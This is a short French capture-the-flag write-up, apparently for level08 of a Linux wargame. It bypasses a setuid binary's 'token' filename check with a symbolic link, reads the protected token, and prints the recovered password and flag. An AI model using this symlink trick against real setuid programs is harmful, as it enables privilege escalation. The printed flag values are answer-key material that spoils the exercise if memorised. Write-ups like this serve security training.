

# Level 08

Cette fois-ci `level08` à 2 fichier, un binaire `level08` et un fichier `token`.

```shell
~ ls -la
total 28
[...]
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

Nous n'avons pas les droits pour lire le fichier `token`, mais nous pouvons lancé `level08` avec les droits de `flag08`.

Comme d'habitude on décompile `level08`



On peux voir qu'il ouvre un fichier, le lis et l'écrit sur l'entrée standart tant que le nom du fichier ne contient pas `token`

Pour pouvoir lire le fichier `token` avec le binaire `level08` sans avoir d'erreur il nous suffit de faire un lien symbolique.

```shell
~ ln -s /home/user/level08/token /tmp/link
~ ./level08 /tmp/link
quif5eloekouj29ke0vouxean
~ su flag08
Password:
Don\'t forget to launch getflag !
~ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

